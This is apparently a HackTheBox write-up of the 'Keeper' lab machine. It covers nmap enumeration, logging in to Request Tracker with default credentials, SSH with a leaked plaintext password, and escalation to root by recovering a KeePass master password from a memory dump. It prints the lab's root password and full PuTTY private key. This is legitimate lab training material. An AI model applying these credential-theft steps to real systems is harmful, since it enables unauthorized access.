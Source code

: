 ```yaml
---
title: HTB - Keeper
date: 2024-07-09T15:40:00
categories:
  - Posts
  - HackTheBox
tags:
  - HackTheBox
  - KeePass
  - OpenSSH
  - RequestTracker
---
```

![https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Keeper.png]
## Summary
Use default credentials to access ticketing system <br/>
Find cleartext password for initial SSH access <br/>
Leverage KeePass database to retrieve SSH key for root
## Enumeration
#### Port Scanning
We'll start off by running nmap and exporting the results in all formats. 
```
$ nmap -sV -sC -T4 10.10.11.227 -oA nmap       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-09 13:55 EDT
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It appears there's only two TCP ports open, 22 (ssh) and 80 (http). Nmap reveals the domain keeper.htb so we'll add that to our hosts file. 

#### Port 80
Upon visiting http://keeper.htb we are met with a link to raise an IT support ticket.
![Pasted image 20240709140705 1.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709140705%201.png)

After following the link, we're met with a login page with some interesting details about the tech stack. My first instinct is to find documentation on the application and look for default credentials, followed by searching the web for any CVEs that may apply to version 4.4.4.
![Pasted image 20240709140755.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709140755.png)

As luck would have it, the default credentials for Request Tracker authenticate us as the root user. After some poking around, we find a listing of other users among which we find lnorgaard (Lise Nørgaard.) Lise is a new user with their initial password stored in plaintext. 
![Pasted image 20240709141101.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709141101.png)

#### SSH
Let's take those credentials and attempt an SSH connection. 
```
$ ssh lnorgaard@10.10.11.227            
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ whoami
lnorgaard
```
Perfect! We got user access!
## Privilege Escalation
In Lise's home folder, we find the user flag and a zip archive.
```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```
Let's download the archive and extract it on our host.
```
$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
```
So we have a dump file and running the file command on passcodes.kdbx reveals a KeePass database version 2.x. We can use 'kpcli' to interact with the database but it is password protected. Fortunately for us, this version happens to have a vulnerability that allows us to reveal the master password. Running the tool https://github.com/vdohney/keepass-password-dumper we get the following:
![Pasted image 20240709151105.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709151105.png)
Googling the last two words we can reveal the first two characters as part of a popular Danish dessert. Now we can open the database and look for credentials that may help us pivot or escalate our credentials.
```
$ kpcli

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx 
Provide the master password: 
```
We can then use the built-in find command to look for results related to our domain.
```
kpcli:/> find keeper
Searching for "keeper" https://raw.githubusercontent.com/sullydan/sullydan.github.io/main.
 - 1 matches found and placed into /_found/
Would you like to show this entry? [y/N] 
=== Entries ===
0. keeper.htb (Ticketing Server)                                          

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Since I'm on a Kali host, we can convert this putty key to one we can use with openSSH. We'll save the original as ssh-rsa and using the following command, output our private key as keeper_id_rsa.
```
$ puttygen ssh-rsa -o keeper_id_rsa -O private-openssh
```
Now to use our newfound key to SSH into the server. Note: the root username was specified in the database entry we found.
```
ssh -i keeper_id_rsa root@10.10.11.227
```
That's it, we officially have root!